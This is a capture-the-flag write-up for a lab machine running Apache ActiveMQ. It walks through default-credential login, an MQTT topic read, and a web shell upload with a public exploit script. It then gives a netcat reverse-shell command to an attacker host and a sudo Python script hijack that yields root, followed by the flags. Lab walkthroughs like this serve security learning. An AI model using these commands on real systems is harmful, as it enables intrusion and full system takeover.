 > Broker

**export IP=10.10.108.148**

# Nmap

sudo nmap -sC -sV -T4 -Pn -p- -vvv -O -oN nmap/initial $IP

```
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
1883/tcp  open  mqtt?      syn-ack ttl 63
|_mqtt-subscribe: The script encountered an error: ssl failed
8161/tcp  open  http       syn-ack ttl 63 Jetty 7.6.9.v20130131
|_http-favicon: Unknown favicon MD5: 05664FB0C7AFCD6436179437E31F3AA6
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: Jetty(7.6.9.v20130131)
|_http-title: Apache ActiveMQ
45493/tcp open  tcpwrapped syn-ack ttl 63
```

Looking at port 8161, we can see Apache ActiveMQ. And accessing `http://10.10.108.148:8161/admin/` we need to be authorized. Searching google for default passwords we can find `admin`:`admin`. And we are in!!

And accessing `http://10.10.108.148:8161/admin/topics.jsp` we can see a topic `secret_chat`. We have to install a mqtt client and access it. Changing the git code we can access the topic `secret_chat`.

python3 mqqt_client.py

```
secret_chat b"Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)"
secret_chat b'Paul: Sounds awesome, I will totally try it out then ^^'
secret_chat b'Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!'
secret_chat b"Paul: Hey, have you played the videogame 'Hacknet' yet?"
```

We can find an exploit for `ActiveMQ` in Metasploit. But metasploit exploit didn't work. Looking in github we found an exploit. 

## Exploit

python3 ActiveMQ_putshell.py -u http://$IP:8161

```
ActiveMQ_put_path：/opt/apache-activemq-5.9.0/webapps/
ActiveMQ_put__txt：http://10.10.108.148:8161/fileserver/guo.txt
ActiveMQ_putshell：http://10.10.108.148:8161/admin/guo.jsp
```

Accessing `http://10.10.108.148:8161/admin/guo.jsp?pwd=gshell&shell=whoami` we have a response.

Let's get a reverse shell, `http://10.10.108.148:8161/admin/guo.jsp?pwd=gshell&shell=nc 10.8.107.21 1234 -e /bin/sh`. And we have a shell!!

# flag.txt

```
THM{you_got_a_m3ss4ge}
```

# Privilege Escalation

sudo -l

```
User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

We can add 2 line to get root access.

```
import os
os.system("/bin/bash")
```

And executing `sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py` we are in as root!!

# root.txt

```
THM{br34k_br0k3_br0k3r}
```